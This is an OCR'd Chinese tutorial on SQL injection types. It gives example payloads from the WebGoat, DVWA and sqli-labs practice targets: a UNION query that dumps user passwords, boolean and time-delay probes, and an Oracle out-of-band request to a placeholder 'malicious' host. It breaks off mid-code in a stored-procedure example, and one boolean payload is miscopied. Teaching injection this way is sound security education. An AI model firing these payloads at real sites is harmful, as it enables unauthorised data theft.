 攻击SQL注入的攻击技术，可以分为 Union型注入，Boolean型注入，Error-based型注入，Out-of-band型注入，Time delay型注入, 字符型注入，数字型注入

在做SQL注入测试前，首先尝试探测SQL服务器的型号和版本信息，可以用nmap尝试去扫描，或者是输入非法的字符让SQL语句执行报错，根据错误信息判断SQL服务器的型号和版本。

#### UNION型注入
下面例子就是非常常规的UNION注入，取自WEBGOAT靶机，正常的操作是输入一个用户名，服务器会返回该用户名的userid，username，password等字段信息

但是如果输入以下的用户名，就可以获取所有用户的用户名和密码，当前利用该漏洞是有前提的，那就是你清楚每个字段的类型以及表名user_system_data
```
omar' UNION SELECT 1,user_name,password,'1','1','1',1 FROM user_system_data --
```

#### 布尔型注入
如果攻击者进行SQL注入，而服务器没有返回错误信息，而只是返回HTTP的状态码不一样时，就属于布尔型的注入。

根据DVWA的例子，根据userid判断用户是否存在，比如输入1返回用户存在，输入5返回用户不存在。这种场景下，如果输入1' and 1=2 # 返回用户不存在，而输入1' and 1=2 # 返回用户存在，则这里是一个注入点。
```
1' and 1=1 #
```

#### 带外SQL注入
前面有简单提到Out-of-band注入，简单来说，如果后端通过其他通道返回信息，则认为是带外(Out-of-band)。

比如下面的例子，如果malicious站点能收到访问请求，则表明存在SQL注入(UTL_HTTP仅适用于Oracle)
```
https://store.h4cker.org/buyme.php?id=8||UTL_HTTP.request('malicious.h4cker.org')||(SELECT user FROM DUAL)--
```

#### 基于时间型注入
极端情况下的盲注就是无论输入什么数据，返回的信息都一样，而且不存在带外注入，这种情况下，就需要基于时间的SQL注入来测试。

基于时间的基本思路是如果SQL语句被执行，则sleep固定时间比如2.5秒，如果服务器返回时间延迟了2.5秒，说明SQL执行成功，可以说time-based型SQL注入是SQL注入测试的底线，如果这个都测不出来，基本认为不存在SQL注入漏洞。

下面的例子中，注入语句表述为如果版本信息是8开头，则sleep 10秒，也就是当目标系统的sql版本为8开头，则response要10秒后才返回。
```
https://store.h4cker.org/buyme.php?id=8 AND IF(version() like '8%', sleep(10), 'false'))--
```

sqli-labs是很好的练习SQL注入的靶机环境，有兴趣的读者可以搭建起来学习。sqli-labs主页 [https://github.com/Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs)

#### 存储过程
存储过程（Stored Procedure）是在大型数据库系统中，一组为了完成特定功能的SQL 语句集，它存储在数据库中，一次编译后永久有效，用户通过指定存储过程的名字并给出参数（如果该存储过程带有参数）来执行它。

事实上，不是使用了存储过程就可以防止SQL注入，我们来看一个例子
```
前端
<form method="post" action="injection.php" enctype="multipart/form-data" >
    Username:<input type="text" name="Username" id="Username"/></br>
    Password:<input type="text" name="Password" id="Password"/></br>
    <input type="submit" name="submit" value="Submit" />
</form>

后端
<?php
if(isset($_POST['Username']))
{
    $username = $_POST['Username'];
    $password = $_POST['Password'];

    // Connect to the server.
    ...

    // Execute a parameterized query.
    $params = array($username, $password);
```